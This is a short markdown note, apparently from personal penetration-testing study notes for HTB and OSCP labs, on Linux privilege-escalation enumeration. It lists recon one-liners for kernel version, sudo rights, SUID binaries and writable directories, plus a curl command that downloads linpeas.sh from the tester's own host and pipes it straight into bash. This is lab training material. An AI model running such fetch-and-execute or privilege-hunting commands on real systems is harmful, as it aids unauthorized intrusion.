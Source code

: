 # Common Privesc Methods

For Linux privesc I usually like enumerating all directories and unusual files I have access too, and then, running a common binary and some one-liners.

## Identifying Privesc

### One-Liners

Run the following one-liners to enumerate your privs on the box:

- `uname -a` == Gives you linux kernel ver.
- `sudo -l` == Shows you where you have SUDO privs.
- `find / -perm -u=s -type f 2>/dev/null` == Locate SUID Binaries.
- `find / -writable -type d 2>/dev/null` == Locate files you have write access to.

These commands will find the majority of privesc vectors on HTB and OSCP. There is more commands you should try if these don't work but I usually head to linpeas after these.

### Linpeas

Linpeas is a bit outdated but is still effective at finding attack vectors.

`curl -sL http://<myip>/linpeas.sh | bash`

It is important to carefully read over the output, even the output that linpeas doesn't highlight red.
